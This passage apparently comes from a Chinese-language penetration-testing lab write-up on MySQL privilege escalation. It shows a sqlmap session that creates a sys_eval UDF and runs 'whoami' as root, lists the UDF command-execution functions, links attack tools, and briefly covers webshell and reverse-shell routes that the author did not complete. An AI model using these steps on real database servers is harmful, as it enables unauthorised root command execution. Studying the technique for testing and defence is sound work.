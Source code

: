    ```
   create function sys_eval returns string soname 'lib_mysqludf_sys_64.so': 'NULL'
   sql-shell> select sys_eval('whoami');
   [13:35:59] [INFO] fetching SQL SELECT statement query output: 'select sys_eval('whoami')'
   select sys_eval('whoami') [1]:
   [*] root
   
   sql-shell>
   ```

   > sqlmap中的udf文件提供的函数：
   >
   > sys_eval，执行任意命令，并将输出返回。 
   >
   > sys_exec，执行任意命令，并将退出码返回。 
   >
   > sys_get，获取一个环境变量。
   >
   > sys_set，创建或修改一个环境变量。
   >
   > ...

### 2.3 利用HackMySQL

以前叫Python_FuckMySQL，仅适用于目标系统为windows，故略。

https://github.com/T3st0r-Git/HackMySQL

https://github.com/v5est0r/Python_FuckMySQL

##3. GetShell的情况

> 适用情况：已经通过一句话木马等GetShell，并且得到了数据库用户名、密码。

###上传含udf提权功能的大马提权

手上的提权木马都是针对windows的，且都是php5。而实验环境是Kali+php7，故未实操。

文章可参考以下：

https://mp.weixin.qq.com/s/URPJPbmRixfWPKFDaX1qFA

http://zone.secevery.com/article/1096

###反弹shell

思路：通过getshell反弹shell后，在反弹回来的shell中连接mysql，然后进行手工提权。

结果：失败，在反弹回来的shell中无法成功连接mysql。